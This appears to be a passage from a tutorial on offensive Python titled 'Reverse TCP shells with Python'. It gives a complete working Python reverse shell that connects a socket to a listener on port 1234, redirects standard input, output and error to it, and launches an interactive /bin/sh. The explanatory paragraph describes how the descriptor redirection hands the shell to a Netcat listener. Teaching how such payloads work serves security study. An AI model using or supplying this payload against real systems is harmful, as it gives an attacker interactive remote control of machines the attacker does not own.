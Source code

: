
# Reverse TCP shells with Python

```python
#! /usr/bin/python3.5
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('127.0.0.1',1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])


```
It should be noted that OS.dup2 is used to create a duplicate of a file descriptor in Python. The stdin is defined to be file descriptor 0, stdout is defined to be file descriptor 1, and stderr is defined to be file descriptor 2. The code line OS.dup2(s.fileno(),0) indicates that we should create a duplicate of stdin and redirect the traffic to the socket file, which happens to be on the localhost and port 1234 (where Netcat is listening). Finally, we invoke the shell in interactive mode and since we are not specifying the stderr, stdin and stdout parameters, by default, the parameters will be sent to stdin and stdout at system level, which is again mapped to the socket for the scope of the program. For this reason, the preceding code snippet will open the shell in interactive mode and pass it on to the socket. All input is taken from the socket as stdin, and all output is passed to the socket via stdout. This can be validated by looking at the output produced.
